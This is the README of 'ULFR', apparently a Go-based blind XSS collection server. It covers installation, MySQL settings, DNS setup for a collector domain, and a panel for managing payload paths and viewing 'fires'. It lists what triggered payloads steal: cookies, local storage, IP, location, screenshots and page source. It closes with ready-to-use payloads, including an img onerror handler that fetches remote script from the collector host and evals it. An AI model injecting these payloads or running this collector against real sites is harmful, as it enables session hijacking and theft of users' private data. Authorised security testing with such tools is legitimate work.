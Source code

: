 # ULFR | Blind XSS

### >_ Introduction

The most powerful Blind XSS tool of the universe.
- Easily Installation
- Fastest
- Multi-Platform Support
- Multi-Domain Support
- Custom Payloads (Subdomain or Path)

### >_ Installation

```
git clone https://github.com/barisbaydur/ulfr.git
cd ulfr
```

<b>HostName</b>, <b>Port</b> and <b>MYSQL</b> Settings from "<b>config/settings.go</b>" should be update.

```
// App Settings
var AppName string = "Ulfr"
var AppVersion string = "0.1.0"
var HostName string = "localhost"
var Port string = "80"

// MYSQL Settings
var MysqlHost string = "localhost"
var MysqlPort string = "3306"
var MysqlUser string = "root"
var MysqlPass string = ""
var MysqlDb string = "ulfr"
```
for compile:
```
go build .
```

no compile run:
```
go run .
```

### >_ Requirements
- Golang
- MYSQL

### >_ How to Use
After the program runs, the panel can be accessed by going to the "<b>/dashboard</b>" address of the hostname address specified in the <b>settings.go</b>.

The features to be seen in the panel are as follows:

| Feature     | Description |
| ----------- | ----------- |
| Domain      | To manage domain addresses |
| Path        | Management of which path or subdomain the payloads will be located in |
| Fire        | Triggered XSS will appear here. |

First of all, you must register a domain. There are two steps for this. 

1. Your domain DNS records should be as follows.

| DNS Record  | Name           | Value       |
| ----------- | -------------- | ----------- |
| A           | domain.com     | \<IP-Adress> |
| A           | *.domain.com   | \<IP-Adress> |

2. You must register the domain name on the domain page.

> [!TIP]
> If you do not have a domain address, you must register your IP address to Domain page at this stage.

After this stage, you must add a path from the path page. There are two options for this.

1. Crate as a path.
example: domain.com/xss 

2. Create as a subdomain
example: xss.domain.com

> [!TIP]
> Paths are not case sensitive.

### >_ Features

1. Browser Informations
    * Available Screen Size
    * Full Screen Size
    * Browser Name
    * Browser User Agent
    * Default Language
    * Triggered URL
    * Local Storage Data
    * Referrer URL
2. User Informations
    * IP Address
    * Location Information (country, city, ASN etc.)
3. Site Informations
    * Full Screenshot
    * Source Code
    * Headers
4. Cookies
    * All Available Cookies
    * Cookies (CORS HTTP-ONLY Bypass) (Not Implemented Yet)
    * Cookies (Trace Method)

> [!NOTE]  
> Do not run the application behind a tool like nginx and apache.

### >_ Example Payloads

* \<script src="domain.com/xss"></script>
* \<img src="x" onerror="fetch('\/\/domain.com/xss').then(response => response.text()).then(scriptText => eval(scriptText));">
